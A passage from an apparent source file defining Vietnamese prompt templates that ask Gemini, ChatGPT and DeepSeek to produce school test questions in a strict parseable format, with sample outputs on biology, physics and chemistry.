5. Mỗi trường viết trên MỘT dòng, đúng dạng "Tên_Trường: giá trị". Tên trường viết y hệt (Loai, Muc_Do, De_Bai, Dap_An, Loi_Giai, So_Dong_Nhap) — không dịch, không đổi, không thêm khoảng trắng trong tên. Nội dung "De_Bai:" viết gọn trên một dòng, KHÔNG xuống dòng giữa chừng và KHÔNG bắt đầu bất kỳ dòng nào bằng "A." … "D." hay bằng tên một trường.

━━━━━━━━━━━━━━ TỪ VỰNG BẮT BUỘC ━━━━━━━━━━━━━━
Trường Loai — viết đúng MỘT trong 4 giá trị:  TN  |  DUNG_SAI  |  DIEN_TU  |  TU_LUAN
Trường Muc_Do — viết đúng MỘT trong 4 giá trị:  Nhan_Biet  |  Thong_Hieu  |  Van_Dung  |  Van_Dung_Cao

━━━━━━━━━━━━━━ ĐỊNH DẠNG CHI TIẾT TỪNG LOẠI CÂU ━━━━━━━━━━━━━━

• TN — trắc nghiệm 4 lựa chọn:
  [CAU_HOI]
  Loai: TN
  Muc_Do: <mức độ>
  De_Bai: <nội dung câu hỏi, một dòng>
  A. <nội dung lựa chọn A>
  B. <nội dung lựa chọn B>
  C. <nội dung lựa chọn C>
  D. <nội dung lựa chọn D>
  Dap_An: <MỘT chữ cái: A hoặc B hoặc C hoặc D — phải trùng đúng một lựa chọn ở trên>
  Loi_Giai: <giải thích vì sao đáp án đó đúng>
  → Bắt buộc đủ 4 lựa chọn, mỗi lựa chọn một dòng riêng, bắt đầu bằng "A. ", "B. ", "C. ", "D. ".

• DUNG_SAI — một nhận định, học sinh xét đúng/sai:
  [CAU_HOI]
  Loai: DUNG_SAI
  Muc_Do: <mức độ>
  De_Bai: <một mệnh đề/nhận định trọn vẹn>
  Dap_An: <đúng một từ:  Dung  hoặc  Sai  — không dấu, viết hoa chữ cái đầu>
  Loi_Giai: <giải thích>

• DIEN_TU — điền vào chỗ trống:
  [CAU_HOI]
  Loai: DIEN_TU
  Muc_Do: <mức độ>
  De_Bai: <câu có chỗ trống, đánh dấu chỗ trống bằng ba dấu gạch dưới:  ___ >
  Dap_An: <từ / cụm từ / số cần điền vào chỗ trống>
  Loi_Giai: <giải thích>

• TU_LUAN — tự luận (CHỈ đặt trong =PHAN_2_TU_LUAN=):
  [CAU_HOI]
  Loai: TU_LUAN
  Muc_Do: <mức độ>
  De_Bai: <đề bài yêu cầu học sinh trình bày lời giải>
  So_Dong_Nhap: <số nguyên dương — số dòng kẻ trống chừa cho học sinh làm bài, ví dụ 5 đến 12>
  Loi_Giai: <hướng dẫn chấm / đáp án / các bước giải chi tiết>

━━━━━━━━━━━━━━ CÁCH VIẾT CÔNG THỨC TOÁN ━━━━━━━━━━━━━━
- BẮT BUỘC bọc trong $...$ và viết bằng LaTeX chuẩn cho MỌI công thức có cấu trúc 2 chiều (bên trên/bên dưới một gạch ngang):
    • Căn mọi loại: $\\sqrt{80}$ , $\\sqrt{b^2 - 4ac}$ , căn bậc n $\\sqrt[3]{x+1}$
    • Phân số mọi loại: $\\dfrac{2}{3}$ , $\\dfrac{-b \\pm \\sqrt{b^2 - 4ac}}{2a}$
    • Lũy thừa có cơ số hoặc số mũ là biểu thức: $x^{n+1}$ , $(a+b)^2$ , $(-2)^{3}$ , $2^{10}$
    • Tích phân / tổng / giới hạn có cận: $\\int_{0}^{1} x^2\\,dx$ , $\\sum_{k=1}^{n} k$ , $\\lim_{x \\to 0} f(x)$
    • Hệ phương trình, ma trận: $\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}$
- CHỈ được gõ ASCII trần (KHÔNG có $...$) cho ký hiệu thật sự MỘT HÀNG: số mũ chỉ một chữ số như x^2 ; dấu nhân a*b ; so sánh <= >= != ; tương đương <=> ; suy ra => ; đơn vị cm2 cm3 ; số thập phân ; dấu cộng trừ viết +- .
- Không trộn nửa ASCII nửa LaTeX trong cùng một biểu thức. Một biểu thức: hoặc toàn ASCII, hoặc toàn LaTeX trong $...$.
- Nếu một biểu thức có căn hoặc phân số thì CẢ biểu thức đó phải nằm gọn trong MỘT cặp $...$ (kể cả phần số/biến đứng ngoài căn): viết $2\\sqrt{3} + 1$ chứ KHÔNG viết 2$\\sqrt{3}$+1 ; viết $\\dfrac{\\sqrt{80}}{5}$ chứ KHÔNG viết $\\sqrt{80}$/5 .

━━━━━━━━━━━━━━ SỐ LƯỢNG CÂU HỎI ━━━━━━━━━━━━━━
Nếu ở phần bổ sung phía dưới KHÔNG ghi yêu cầu số lượng cụ thể: hãy tạo khoảng 6 câu cho PHAN_1 (đủ cả TN, DUNG_SAI, DIEN_TU) và 2–3 câu TU_LUAN cho PHAN_2, phân bố trải đều 4 mức độ từ Nhan_Biet đến Van_Dung_Cao.
Nếu CÓ ghi yêu cầu số lượng: tuân thủ đúng số lượng và đúng loại × mức độ được yêu cầu.

━━━━━━━━━━━━━━ KHUNG MẪU — giữ nguyên cấu trúc, thay <...> bằng nội dung thật ━━━━━━━━━━━━━━

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <nội dung câu trắc nghiệm>
A. <lựa chọn A>
B. <lựa chọn B>
C. <lựa chọn C>
D. <lựa chọn D>
Dap_An: A
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: <một nhận định>
Dap_An: Dung
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: <câu hỏi có ___ ở chỗ trống>
Dap_An: <đáp án cần điền>
Loi_Giai: <giải thích>

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: <đề bài tự luận>
So_Dong_Nhap: 8
Loi_Giai: <hướng dẫn chấm và các bước giải chi tiết>

LƯU Ý DÀNH RIÊNG CHO GEMINI PRO: Nhờ cửa sổ ngữ cảnh lớn, có thể dán kèm nguyên văn nội dung sách/bài giảng vào cuối prompt này làm tư liệu tham khảo ngay trong cùng một lượt hỏi. Nếu bạn bật chế độ suy luận sâu (Thinking/Deep Think), CHỈ xuất ra đáp án và lời giải cuối cùng theo đúng định dạng — không in ra các bước suy nghĩ trung gian, không có thẻ hay mục nào khác đứng trước dòng "=PHAN_1_TRAC_NGHIEM=".`,
    example: `=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Hệ tuần hoàn ở người có chức năng chính là gì?
A. Vận chuyển máu và các chất dinh dưỡng, khí đi khắp cơ thể
B. Tiêu hóa thức ăn thành chất dinh dưỡng
C. Lọc và bài tiết nước tiểu
D. Điều khiển mọi hoạt động của cơ thể
Dap_An: A
Loi_Giai: Hệ tuần hoàn gồm tim và mạch máu, có chức năng vận chuyển máu mang oxi, chất dinh dưỡng, hoocmon và các chất thải đi khắp cơ thể.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Tim người có mấy ngăn?
A. 2 ngăn
B. 3 ngăn
C. 4 ngăn
D. 5 ngăn
Dap_An: C
Loi_Giai: Tim người có 4 ngăn: 2 tâm nhĩ (trái, phải) và 2 tâm thất (trái, phải).

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Máu chảy trong động mạch luôn là máu giàu oxi (máu đỏ tươi).
Dap_An: Sai
Loi_Giai: Không đúng với mọi trường hợp: động mạch chủ dẫn máu giàu oxi đi nuôi cơ thể, nhưng động mạch phổi lại dẫn máu nghèo oxi từ tim lên phổi để trao đổi khí.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Loại mạch máu có thành mỏng nhất, chỉ gồm một lớp tế bào, giúp máu trao đổi chất dễ dàng với tế bào cơ thể, được gọi là ___.
Dap_An: mao mạch
Loi_Giai: Mao mạch là mạch máu nhỏ nhất, thành chỉ gồm một lớp tế bào biểu mô, cho phép các chất trao đổi qua lại giữa máu và mô cơ thể.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Giải thích vì sao khi luyện tập thể dục thể thao thường xuyên, nhịp tim lúc nghỉ ngơi của một người có xu hướng giảm xuống theo thời gian.
So_Dong_Nhap: 8
Loi_Giai: Luyện tập thường xuyên làm cơ tim khỏe hơn, thành tim dày hơn nên mỗi lần co bóp tim tống được nhiều máu hơn (tăng thể tích tâm thu). Do đó để đáp ứng đủ nhu cầu oxi và dinh dưỡng cho cơ thể lúc nghỉ ngơi, tim không cần đập nhanh như trước, dẫn đến nhịp tim lúc nghỉ giảm xuống — đây là dấu hiệu của một trái tim khỏe mạnh.`,
  },
  {
    id: "chatgpt",
    label: "ChatGPT",
    hint: "Dán vào ChatGPT tại chatgpt.com hoặc app ChatGPT.",
    exampleTopic: "Vật lý 10 - Động học chất điểm",
    template: `Bạn là chuyên gia khảo thí và biên soạn đề kiểm tra. Hãy soạn nội dung đề kiểm tra về chủ đề [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY].

Kết quả của bạn sẽ được một PHẦN MỀM ĐỌC TỰ ĐỘNG, không phải con người đọc. Vì vậy phải tuân thủ TUYỆT ĐỐI định dạng bên dưới. Chỉ cần sai một chi tiết là phần mềm sẽ báo lỗi hoặc hiểu sai nội dung.

━━━━━━━━━━━━━━ QUY TẮC XUẤT KẾT QUẢ (bắt buộc) ━━━━━━━━━━━━━━
1. CHỈ xuất ra nội dung đề theo đúng định dạng dưới đây. TUYỆT ĐỐI KHÔNG viết lời chào, lời dẫn ("Dưới đây là đề..."), ghi chú, lời kết. KHÔNG đặt kết quả trong khối mã / code block. KHÔNG dùng ký hiệu markdown (dấu sao, dấu thăng, gạch đầu dòng, bảng...).
2. Đề gồm ĐÚNG 2 phần. Mỗi phần mở đầu bằng một dòng header viết y hệt, chữ IN HOA không dấu, có dấu "=" ở hai đầu, NẰM MỘT MÌNH TRÊN DÒNG và có một dòng trống ngay phía trước:
      =PHAN_1_TRAC_NGHIEM=   → chứa mọi câu loại TN, DUNG_SAI, DIEN_TU
      =PHAN_2_TU_LUAN=       → chỉ chứa câu loại TU_LUAN
3. Mỗi câu hỏi bắt đầu bằng đúng dòng:  [CAU_HOI]  — nằm một mình trên dòng, có một dòng trống ngay phía trước. TUYỆT ĐỐI không nối "[CAU_HOI]" hay dòng header vào cuối dòng "Loi_Giai:" của câu trước.
4. Mỗi câu chỉ được có DUY NHẤT một dòng "Dap_An:" và DUY NHẤT một dòng "Loi_Giai:". Hãy suy nghĩ và tự kiểm tra thật kỹ TRƯỚC khi viết, rồi chỉ ghi ra đáp án CUỐI CÙNG mà bạn chắc chắn đúng. Không được ghi "Dap_An:" hoặc "Loi_Giai:" lần thứ hai để tự sửa lại trong cùng một câu.
5. Mỗi trường viết trên MỘT dòng, đúng dạng "Tên_Trường: giá trị". Tên trường viết y hệt (Loai, Muc_Do, De_Bai, Dap_An, Loi_Giai, So_Dong_Nhap) — không dịch, không đổi, không thêm khoảng trắng trong tên. Nội dung "De_Bai:" viết gọn trên một dòng, KHÔNG xuống dòng giữa chừng và KHÔNG bắt đầu bất kỳ dòng nào bằng "A." … "D." hay bằng tên một trường.

━━━━━━━━━━━━━━ TỪ VỰNG BẮT BUỘC ━━━━━━━━━━━━━━
Trường Loai — viết đúng MỘT trong 4 giá trị:  TN  |  DUNG_SAI  |  DIEN_TU  |  TU_LUAN
Trường Muc_Do — viết đúng MỘT trong 4 giá trị:  Nhan_Biet  |  Thong_Hieu  |  Van_Dung  |  Van_Dung_Cao

━━━━━━━━━━━━━━ ĐỊNH DẠNG CHI TIẾT TỪNG LOẠI CÂU ━━━━━━━━━━━━━━

• TN — trắc nghiệm 4 lựa chọn:
  [CAU_HOI]
  Loai: TN
  Muc_Do: <mức độ>
  De_Bai: <nội dung câu hỏi, một dòng>
  A. <nội dung lựa chọn A>
  B. <nội dung lựa chọn B>
  C. <nội dung lựa chọn C>
  D. <nội dung lựa chọn D>
  Dap_An: <MỘT chữ cái: A hoặc B hoặc C hoặc D — phải trùng đúng một lựa chọn ở trên>
  Loi_Giai: <giải thích vì sao đáp án đó đúng>
  → Bắt buộc đủ 4 lựa chọn, mỗi lựa chọn một dòng riêng, bắt đầu bằng "A. ", "B. ", "C. ", "D. ".

• DUNG_SAI — một nhận định, học sinh xét đúng/sai:
  [CAU_HOI]
  Loai: DUNG_SAI
  Muc_Do: <mức độ>
  De_Bai: <một mệnh đề/nhận định trọn vẹn>
  Dap_An: <đúng một từ:  Dung  hoặc  Sai  — không dấu, viết hoa chữ cái đầu>
  Loi_Giai: <giải thích>

• DIEN_TU — điền vào chỗ trống:
  [CAU_HOI]
  Loai: DIEN_TU
  Muc_Do: <mức độ>
  De_Bai: <câu có chỗ trống, đánh dấu chỗ trống bằng ba dấu gạch dưới:  ___ >
  Dap_An: <từ / cụm từ / số cần điền vào chỗ trống>
  Loi_Giai: <giải thích>

• TU_LUAN — tự luận (CHỈ đặt trong =PHAN_2_TU_LUAN=):
  [CAU_HOI]
  Loai: TU_LUAN
  Muc_Do: <mức độ>
  De_Bai: <đề bài yêu cầu học sinh trình bày lời giải>
  So_Dong_Nhap: <số nguyên dương — số dòng kẻ trống chừa cho học sinh làm bài, ví dụ 5 đến 12>
  Loi_Giai: <hướng dẫn chấm / đáp án / các bước giải chi tiết>

━━━━━━━━━━━━━━ CÁCH VIẾT CÔNG THỨC TOÁN ━━━━━━━━━━━━━━
- BẮT BUỘC bọc trong $...$ và viết bằng LaTeX chuẩn cho MỌI công thức có cấu trúc 2 chiều (bên trên/bên dưới một gạch ngang):
    • Căn mọi loại: $\\sqrt{80}$ , $\\sqrt{b^2 - 4ac}$ , căn bậc n $\\sqrt[3]{x+1}$
    • Phân số mọi loại: $\\dfrac{2}{3}$ , $\\dfrac{-b \\pm \\sqrt{b^2 - 4ac}}{2a}$
    • Lũy thừa có cơ số hoặc số mũ là biểu thức: $x^{n+1}$ , $(a+b)^2$ , $(-2)^{3}$ , $2^{10}$
    • Tích phân / tổng / giới hạn có cận: $\\int_{0}^{1} x^2\\,dx$ , $\\sum_{k=1}^{n} k$ , $\\lim_{x \\to 0} f(x)$
    • Hệ phương trình, ma trận: $\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}$
- CHỈ được gõ ASCII trần (KHÔNG có $...$) cho ký hiệu thật sự MỘT HÀNG: số mũ chỉ một chữ số như x^2 ; dấu nhân a*b ; so sánh <= >= != ; tương đương <=> ; suy ra => ; đơn vị cm2 cm3 ; số thập phân ; dấu cộng trừ viết +- .
- Không trộn nửa ASCII nửa LaTeX trong cùng một biểu thức. Một biểu thức: hoặc toàn ASCII, hoặc toàn LaTeX trong $...$.
- Nếu một biểu thức có căn hoặc phân số thì CẢ biểu thức đó phải nằm gọn trong MỘT cặp $...$ (kể cả phần số/biến đứng ngoài căn): viết $2\\sqrt{3} + 1$ chứ KHÔNG viết 2$\\sqrt{3}$+1 ; viết $\\dfrac{\\sqrt{80}}{5}$ chứ KHÔNG viết $\\sqrt{80}$/5 .

━━━━━━━━━━━━━━ SỐ LƯỢNG CÂU HỎI ━━━━━━━━━━━━━━
Nếu ở phần bổ sung phía dưới KHÔNG ghi yêu cầu số lượng cụ thể: hãy tạo khoảng 6 câu cho PHAN_1 (đủ cả TN, DUNG_SAI, DIEN_TU) và 2–3 câu TU_LUAN cho PHAN_2, phân bố trải đều 4 mức độ từ Nhan_Biet đến Van_Dung_Cao.
Nếu CÓ ghi yêu cầu số lượng: tuân thủ đúng số lượng và đúng loại × mức độ được yêu cầu.

━━━━━━━━━━━━━━ KHUNG MẪU — giữ nguyên cấu trúc, thay <...> bằng nội dung thật ━━━━━━━━━━━━━━

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <nội dung câu trắc nghiệm>
A. <lựa chọn A>
B. <lựa chọn B>
C. <lựa chọn C>
D. <lựa chọn D>
Dap_An: A
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: <một nhận định>
Dap_An: Dung
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: <câu hỏi có ___ ở chỗ trống>
Dap_An: <đáp án cần điền>
Loi_Giai: <giải thích>

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: <đề bài tự luận>
So_Dong_Nhap: 8
Loi_Giai: <hướng dẫn chấm và các bước giải chi tiết>

LƯU Ý DÀNH RIÊNG CHO CHATGPT: TUYỆT ĐỐI không bọc kết quả trong khối mã (ba dấu backtick), kể cả khi bạn có thói quen mặc định làm vậy với nội dung dạng danh sách/bảng. Không thêm câu mở đầu kiểu "Dưới đây là đề kiểm tra..." hay câu kết kiểu "Chúc bạn dạy tốt!" — chỉ xuất đúng nội dung đề theo định dạng đã nêu.`,
    example: `=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Một vật chuyển động thẳng đều đi được quãng đường 120m trong 20s. Tốc độ trung bình của vật là bao nhiêu?
A. 4 m/s
B. 6 m/s
C. 8 m/s
D. 10 m/s
Dap_An: B
Loi_Giai: Tốc độ trung bình $v = \\dfrac{s}{t} = \\dfrac{120}{20} = 6$ m/s.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Một ô tô chuyển động thẳng nhanh dần đều từ trạng thái nghỉ với gia tốc 2 m/s². Sau 5s vận tốc của ô tô là bao nhiêu?
A. 5 m/s
B. 8 m/s
C. 10 m/s
D. 15 m/s
Dap_An: C
Loi_Giai: Áp dụng công thức $v = v_0 + at$, với $v_0 = 0$, $a = 2$ m/s², $t = 5$s, ta có $v = 0 + 2 \\times 5 = 10$ m/s.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Trong chuyển động thẳng đều, quãng đường đi được luôn tỉ lệ thuận với thời gian chuyển động.
Dap_An: Dung
Loi_Giai: Vì $s = v \\times t$ với $v$ không đổi, nên $s$ tỉ lệ thuận với $t$.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Một vật rơi tự do từ độ cao 80m (bỏ qua sức cản không khí, lấy $g = 10$ m/s²). Thời gian vật chạm đất là ___ giây.
Dap_An: 4
Loi_Giai: Từ công thức $h = \\dfrac{1}{2}gt^2$, suy ra $t = \\sqrt{\\dfrac{2h}{g}} = \\sqrt{\\dfrac{2 \\times 80}{10}} = \\sqrt{16} = 4$ giây.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Hai xe máy xuất phát cùng lúc từ hai địa điểm A và B cách nhau 90km, chuyển động thẳng đều ngược chiều nhau để gặp nhau. Xe từ A có tốc độ 30 km/h, xe từ B có tốc độ 20 km/h. Hỏi sau bao lâu hai xe gặp nhau và vị trí gặp nhau cách A bao nhiêu km? Trình bày lời giải.
So_Dong_Nhap: 8
Loi_Giai: Tốc độ tiến lại gần nhau: $30 + 20 = 50$ km/h. Thời gian gặp nhau: $t = \\dfrac{90}{50} = 1{,}8$ giờ. Vị trí gặp nhau cách A: $30 \\times 1{,}8 = 54$ km.`,
  },
  {
    id: "deepseek",
    label: "DeepSeek",
    hint: "Dán vào DeepSeek tại chat.deepseek.com hoặc app DeepSeek.",
    exampleTopic: "Hóa học 8 - Nguyên tử, phân tử",
    template: `Bạn là chuyên gia khảo thí và biên soạn đề kiểm tra. Hãy soạn nội dung đề kiểm tra về chủ đề [NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY].

Kết quả của bạn sẽ được một PHẦN MỀM ĐỌC TỰ ĐỘNG, không phải con người đọc. Vì vậy phải tuân thủ TUYỆT ĐỐI định dạng bên dưới. Chỉ cần sai một chi tiết là phần mềm sẽ báo lỗi hoặc hiểu sai nội dung.

━━━━━━━━━━━━━━ QUY TẮC XUẤT KẾT QUẢ (bắt buộc) ━━━━━━━━━━━━━━
1. CHỈ xuất ra nội dung đề theo đúng định dạng dưới đây. TUYỆT ĐỐI KHÔNG viết lời chào, lời dẫn ("Dưới đây là đề..."), ghi chú, lời kết. KHÔNG đặt kết quả trong khối mã / code block. KHÔNG dùng ký hiệu markdown (dấu sao, dấu thăng, gạch đầu dòng, bảng...).
2. Đề gồm ĐÚNG 2 phần. Mỗi phần mở đầu bằng một dòng header viết y hệt, chữ IN HOA không dấu, có dấu "=" ở hai đầu, NẰM MỘT MÌNH TRÊN DÒNG và có một dòng trống ngay phía trước:
      =PHAN_1_TRAC_NGHIEM=   → chứa mọi câu loại TN, DUNG_SAI, DIEN_TU
      =PHAN_2_TU_LUAN=       → chỉ chứa câu loại TU_LUAN
3. Mỗi câu hỏi bắt đầu bằng đúng dòng:  [CAU_HOI]  — nằm một mình trên dòng, có một dòng trống ngay phía trước. TUYỆT ĐỐI không nối "[CAU_HOI]" hay dòng header vào cuối dòng "Loi_Giai:" của câu trước.
4. Mỗi câu chỉ được có DUY NHẤT một dòng "Dap_An:" và DUY NHẤT một dòng "Loi_Giai:". Hãy suy nghĩ và tự kiểm tra thật kỹ TRƯỚC khi viết, rồi chỉ ghi ra đáp án CUỐI CÙNG mà bạn chắc chắn đúng. Không được ghi "Dap_An:" hoặc "Loi_Giai:" lần thứ hai để tự sửa lại trong cùng một câu.
5. Mỗi trường viết trên MỘT dòng, đúng dạng "Tên_Trường: giá trị". Tên trường viết y hệt (Loai, Muc_Do, De_Bai, Dap_An, Loi_Giai, So_Dong_Nhap) — không dịch, không đổi, không thêm khoảng trắng trong tên. Nội dung "De_Bai:" viết gọn trên một dòng, KHÔNG xuống dòng giữa chừng và KHÔNG bắt đầu bất kỳ dòng nào bằng "A." … "D." hay bằng tên một trường.

━━━━━━━━━━━━━━ TỪ VỰNG BẮT BUỘC ━━━━━━━━━━━━━━
Trường Loai — viết đúng MỘT trong 4 giá trị:  TN  |  DUNG_SAI  |  DIEN_TU  |  TU_LUAN
Trường Muc_Do — viết đúng MỘT trong 4 giá trị:  Nhan_Biet  |  Thong_Hieu  |  Van_Dung  |  Van_Dung_Cao

━━━━━━━━━━━━━━ ĐỊNH DẠNG CHI TIẾT TỪNG LOẠI CÂU ━━━━━━━━━━━━━━

• TN — trắc nghiệm 4 lựa chọn:
  [CAU_HOI]
  Loai: TN
  Muc_Do: <mức độ>
  De_Bai: <nội dung câu hỏi, một dòng>
  A. <nội dung lựa chọn A>
  B. <nội dung lựa chọn B>
  C. <nội dung lựa chọn C>
  D. <nội dung lựa chọn D>
  Dap_An: <MỘT chữ cái: A hoặc B hoặc C hoặc D — phải trùng đúng một lựa chọn ở trên>
  Loi_Giai: <giải thích vì sao đáp án đó đúng>
  → Bắt buộc đủ 4 lựa chọn, mỗi lựa chọn một dòng riêng, bắt đầu bằng "A. ", "B. ", "C. ", "D. ".

• DUNG_SAI — một nhận định, học sinh xét đúng/sai:
  [CAU_HOI]
  Loai: DUNG_SAI
  Muc_Do: <mức độ>
  De_Bai: <một mệnh đề/nhận định trọn vẹn>
  Dap_An: <đúng một từ:  Dung  hoặc  Sai  — không dấu, viết hoa chữ cái đầu>
  Loi_Giai: <giải thích>

• DIEN_TU — điền vào chỗ trống:
  [CAU_HOI]
  Loai: DIEN_TU
  Muc_Do: <mức độ>
  De_Bai: <câu có chỗ trống, đánh dấu chỗ trống bằng ba dấu gạch dưới:  ___ >
  Dap_An: <từ / cụm từ / số cần điền vào chỗ trống>
  Loi_Giai: <giải thích>

• TU_LUAN — tự luận (CHỈ đặt trong =PHAN_2_TU_LUAN=):
  [CAU_HOI]
  Loai: TU_LUAN
  Muc_Do: <mức độ>
  De_Bai: <đề bài yêu cầu học sinh trình bày lời giải>
  So_Dong_Nhap: <số nguyên dương — số dòng kẻ trống chừa cho học sinh làm bài, ví dụ 5 đến 12>
  Loi_Giai: <hướng dẫn chấm / đáp án / các bước giải chi tiết>

━━━━━━━━━━━━━━ CÁCH VIẾT CÔNG THỨC TOÁN ━━━━━━━━━━━━━━
- BẮT BUỘC bọc trong $...$ và viết bằng LaTeX chuẩn cho MỌI công thức có cấu trúc 2 chiều (bên trên/bên dưới một gạch ngang):
    • Căn mọi loại: $\\sqrt{80}$ , $\\sqrt{b^2 - 4ac}$ , căn bậc n $\\sqrt[3]{x+1}$
    • Phân số mọi loại: $\\dfrac{2}{3}$ , $\\dfrac{-b \\pm \\sqrt{b^2 - 4ac}}{2a}$
    • Lũy thừa có cơ số hoặc số mũ là biểu thức: $x^{n+1}$ , $(a+b)^2$ , $(-2)^{3}$ , $2^{10}$
    • Tích phân / tổng / giới hạn có cận: $\\int_{0}^{1} x^2\\,dx$ , $\\sum_{k=1}^{n} k$ , $\\lim_{x \\to 0} f(x)$
    • Hệ phương trình, ma trận: $\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}$
- CHỈ được gõ ASCII trần (KHÔNG có $...$) cho ký hiệu thật sự MỘT HÀNG: số mũ chỉ một chữ số như x^2 ; dấu nhân a*b ; so sánh <= >= != ; tương đương <=> ; suy ra => ; đơn vị cm2 cm3 ; số thập phân ; dấu cộng trừ viết +- .
- Không trộn nửa ASCII nửa LaTeX trong cùng một biểu thức. Một biểu thức: hoặc toàn ASCII, hoặc toàn LaTeX trong $...$.
- Nếu một biểu thức có căn hoặc phân số thì CẢ biểu thức đó phải nằm gọn trong MỘT cặp $...$ (kể cả phần số/biến đứng ngoài căn): viết $2\\sqrt{3} + 1$ chứ KHÔNG viết 2$\\sqrt{3}$+1 ; viết $\\dfrac{\\sqrt{80}}{5}$ chứ KHÔNG viết $\\sqrt{80}$/5 .

━━━━━━━━━━━━━━ SỐ LƯỢNG CÂU HỎI ━━━━━━━━━━━━━━
Nếu ở phần bổ sung phía dưới KHÔNG ghi yêu cầu số lượng cụ thể: hãy tạo khoảng 6 câu cho PHAN_1 (đủ cả TN, DUNG_SAI, DIEN_TU) và 2–3 câu TU_LUAN cho PHAN_2, phân bố trải đều 4 mức độ từ Nhan_Biet đến Van_Dung_Cao.
Nếu CÓ ghi yêu cầu số lượng: tuân thủ đúng số lượng và đúng loại × mức độ được yêu cầu.

━━━━━━━━━━━━━━ KHUNG MẪU — giữ nguyên cấu trúc, thay <...> bằng nội dung thật ━━━━━━━━━━━━━━

=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <nội dung câu trắc nghiệm>
A. <lựa chọn A>
B. <lựa chọn B>
C. <lựa chọn C>
D. <lựa chọn D>
Dap_An: A
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: <một nhận định>
Dap_An: Dung
Loi_Giai: <giải thích>

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: <câu hỏi có ___ ở chỗ trống>
Dap_An: <đáp án cần điền>
Loi_Giai: <giải thích>

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: <đề bài tự luận>
So_Dong_Nhap: 8
Loi_Giai: <hướng dẫn chấm và các bước giải chi tiết>

LƯU Ý DÀNH RIÊNG CHO DEEPSEEK: Nếu bạn có bước suy luận trước khi trả lời (thinking/reasoning, ví dụ chế độ DeepThink/R1), phần suy luận đó KHÔNG được lẫn vào nội dung xuất ra cho người dùng — nội dung bạn xuất ra phải bắt đầu ngay bằng dòng "=PHAN_1_TRAC_NGHIEM=", tuyệt đối không có thẻ <think>, không có dòng ghi chú hay tóm tắt suy luận nào khác đứng trước hoặc xen giữa.`,
    example: `=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Phân tử nước có công thức hóa học là gì?
A. H2O
B. CO2
C. O2
D. NaCl
Dap_An: A
Loi_Giai: Phân tử nước gồm 2 nguyên tử Hiđro và 1 nguyên tử Oxi liên kết với nhau, công thức hóa học là H2O.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Phân tử khối của khí cacbonic (CO2) bằng bao nhiêu, biết nguyên tử khối của C là 12, của O là 16?
A. 28
B. 32
C. 44
D. 60
Dap_An: C
Loi_Giai: Phân tử khối CO2 = 12 + 16 x 2 = 12 + 32 = 44 đvC.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Nguyên tử trung hòa về điện vì số proton trong hạt nhân luôn bằng số electron ở lớp vỏ.
Dap_An: Dung
Loi_Giai: Proton mang điện tích dương, electron mang điện tích âm với độ lớn bằng nhau; số proton bằng số electron nên nguyên tử trung hòa về điện.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Một phân tử khí oxi gồm 2 nguyên tử O. Biết nguyên tử khối của O là 16, phân tử khối của khí oxi là ___ đvC.
Dap_An: 32
Loi_Giai: Phân tử khối O2 = 16 x 2 = 32 đvC.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Hợp chất X có phân tử gồm 1 nguyên tử nguyên tố R liên kết với 2 nguyên tử Oxi, phân tử khối của X là 44 đvC. Xác định nguyên tố R và viết công thức hóa học của X. Biết nguyên tử khối của O là 16.
So_Dong_Nhap: 6
Loi_Giai: Gọi nguyên tử khối của R là x. Ta có: x + 16 x 2 = 44, suy ra x = 44 - 32 = 12. Vậy R là Cacbon (C), công thức hóa học của X là CO2.`,
  },
  {
    id: "claude",
    label: "Claude",
